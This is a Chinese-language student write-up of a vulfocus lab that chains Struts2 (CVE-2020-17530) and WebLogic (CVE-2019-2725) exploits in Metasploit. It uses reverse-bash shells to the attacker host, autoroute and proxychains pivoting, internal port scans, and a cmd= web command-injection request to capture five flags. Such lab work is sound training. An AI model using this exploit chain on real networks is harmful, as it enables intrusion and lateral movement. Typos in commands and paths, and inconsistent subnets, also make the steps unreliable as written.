

# 漏洞攻防场景初体验


## 1.环境搭建：
### 网络拓扑：
**kali-attacker：192.168.70.7**
**kali-victim：192.168.70.4**

### 搭建过程：
* 在启用好的vulfocus镜像中，找到网卡管理，在[老师提供的连接中](https://ctf-game/fofapro/vulfocus/DMZ) 中找到使用cat命令找到需要添加的网卡信息，并添加到网卡管理中。
* 具体网卡管理：


* 这样就可以编排我们的场景：
1. 第一层靶机：```struts2-cve-2020_17530:latest```容器，端口选择开放，这样我们就得到了唯一开放的入口。
2. 第一层网卡：DMZ,直接添加就好
3. 第二层靶机：三个```weblogic-cve_2019_2725:latest```容器，端口选择关闭，因为我们不能有第二个入口靶标志，所以需要将这个容器的端口关闭，这样我们就直接无法进入到第二层靶机了。
4. 第二层网卡：核心网，直接添加就好
5. 第三层靶机：```c4pr1c3/vulshare_nginx-php-flag:latest```
* 具体场景编排如下：

**将其保存并发布后，点击启动场景**
* 启动场景：
* 根据下m面访问地址的端口号，访问对应的靶机：


**ps:这里我用了三次场景，每次端口都会随机，所以需要根据端口号进行访问。:)**

## 2.拿到五个flag的全过程
### 攻破第一个靶标
1. 在受害者主机中启用抓包：
```bash
docker ps #查看struts2-cve-2020_17530:latest容器的ID
container_name="<替换为目标容器名称或ID>"
docker run --rm --net=container:${container_name} -v ${PWD}/tcpdump/${container_name}:/tcpdump kaazing/tcpdump
```


2. 在攻击者主机中：
*安装metasploit*：
```bash
sudo apt install -y metasploit-framework
# 初始化 metasploit 本地工作数据库
sudo msfdb init

# 启动 msfconsole
msfconsole
# 确认已连接 pgsql
db_status
# 建立工作区
workspace -a demo
```


3. 通过**上帝视角**我们知道我们要攻击的是struts2漏洞，所以直接在metasploit中搜索struts2漏洞，并使用exp进行攻击：
```bash
search struts2 # 搜索struts2漏洞
## 查找出来后可用info查看信息
info 4
```


*ps：这里有个小插曲是跟着老师配错了exploit*

接着我们就要用合适的exp以及它的payload
```bash
use exploit/multi/http/struts2_multi_eval_ognl
```

* 配置payload：
```bash
search payload ##查找payload
set payload payload/cmd/unix/reverse_bash ##因为要拿到反弹shell才好拿到flag
```

* 使用```show options```查看参数，并使用```set```进行改变参数
```bash
show options
set RHOSTS 192.168.70.4
set rport <your_port>
set LHOST 192.168.70.7
```


* 这时exp参数已经设置完毕了，我们直接使用```exploit -j```进行攻击

**看到 shell seeion1 open，攻击成功**
* 这时我们用```seeions -l``` 查看一下session, 并且使用```sessions -i 1```进入session
**在/tem 目录下执行ls -la，可以看到flag**

* 提交到vulfocus中就可以了

### 立足第一个靶机发现第二到四个靶标
**由于我们拿到了第一个反弹shell，在metasploit中我们可以升级这个shell**
```bash
sessions -u 1 ## 使用sessions -u 1进行升级
```

* 升级这个shell后，我们就能进行更加大胆的操作
* 提交一些基础命令：
```
ipconfig
arp
```


**这里可以看到第一个靶机后还藏着一个网卡以及，能推测出网络后还有至少一层内网，以及这个子网下的主机**

**所以我们需要对这个这个网卡进行扫描**
**但由于它在内网，所以我们需要一个正向代理让路由都通过这个代理即虚拟路由，我们通过这个虚拟路由就能扫描到这个网卡下的所有主机**
```bash
run autoroute -s 192.170.84.0/24 ## 虚拟路由
run autoroute -p
```

* 这样我们就拿到了这个虚拟路由
```Ctrl+z```退出并且在后台挂住这个session
* 接着我们需要在metasploit中搜索端口扫描工具
```bash
search portscan ## 搜索端口扫描工具
use auxiliary/scanner/portscan/tcp ## 选择tcp端口扫描工具
show options ## 查看参数
set RHOSTS 192.170.84.2-254 ##根据子网掩码推导
set ports 7001 ##根据上帝视角
set THREADS 10 ## 设置线程数

run ## 运行扫描
```


**说明7001端口扫描出来是开放的**
* 但是我们还需要验证
```bash
curl http://192.170.84.2:7001/ -vv ## 验证7001端口是否开放
```


**404 说明网络层联通只是应用层错误**
这样就证明了我们的内网确实有三个靶机在7001端口开放，所以就发现了第2到4个靶标

### 攻破2、3、4靶标
* 由于我们处于上帝视角，我们直到第二层主机存在weblogic漏洞，所以我们直接通过exploit进行攻击
*  搜索weblogic漏洞：
```bash
search cve-2019-2725
use exploit/multi/weblogic/weblogic_deserialization_asyncresponseservice ## 选择weblogic_deserialization_asyncresponseservice这个exp
show options ## 查看参数
set RHOSTS 192.170.84.2 ## 攻击目标
set lport 7001
set lhost 192.168.70.7
run -j
```


```bash
sessions -i 3

ls /tem ## 查看flag
```

* 这样就拿到了第二个flag
* 同理，我们只要改变上面options中的RHOSTS即可，就可以拿到第三个，第四个flag
```bash
set RHOSTS 192.170.84.3
exploit -j
sessions -i 4

ls /tem
```


```bash
set RHOSTS 192.170.84.4
exploit -j
sessions -i 5

ls /tem
```


* 至此，我们拿到了2、3、4个flag，提交到vulfocus中即可

### 发现第五个靶标
* 我们将刚刚拿到的三个shell全部升级为metepreter shell
```bash
sessions -u 3
sessions -u 4
sessions -u 5
```

* 在每个shell中使用```ipconfig```查看接口
**在192.170.84.4的shell中我们发现了第三个网卡**


**这样就说明了还有第三层内网和子网**

**说明我们找到了第五层靶标**

### 攻破第五个靶标
* 由于我们只知道网卡，不知道开放的ip和端口，通过**上帝视角**，我们只知道第三层是一个nginx-php-flag:latest的容器，开放的是80端口，我们可以选择用proxychain sock5代理来执行nmap是扫描


* 利用用上述代理我们可以执行```proxy sudo nmap -vv -n -p 80 -Pn -sT 192.169.85.2-254```
* 这样我们就可以扫描这个网段中那些ip是开放的

**这里实验我用的是穷举法**

* 在发现第三张网卡的主机即192.170.84.4的升级shell中再输入一个shell
通过```wget```命令来逐步验证哪些ip是开放的
```bash
wget http://192.169.85.1
wget http://192.169.85.2
wget http://192.169.85.3
...
```
* 按照常理来说，可能要1-254全部运行一遍，但是这里运气好，找到了可以访问的网页

*ps:这里我以为85.1确实是正确的ip，但是其实正确的确实是85.2*
看到有网页回显后，利用linux写法将保存下来，然后使用```cat```命令查看flag
```shell
wget "http://192.169.85.2/index.php?cmd=ls /tmp" -O /tmp/result && cat /tmp/result ## 保存到/tmp/result中并查看
```

* 提交到vulfocus中即可


**这样我们就拿到了所有的flag**

## 3.实验反思
* 1、对于第二层内网，我们知道具体的端口，所以直接进行利用即可
* 2、对于漏洞，我们知道具体漏洞类型，所以能直接使用exp和对应的payload来进行利用
* 3、配置好proxychain的sock5代理后，我们就能通过proxychain来实现内网的扫描，但是扫描出来的正确ip也是被过滤的，这一点需要通过wireshark抓取[被害者主机的包](./tcpdump.pcap)手动分析
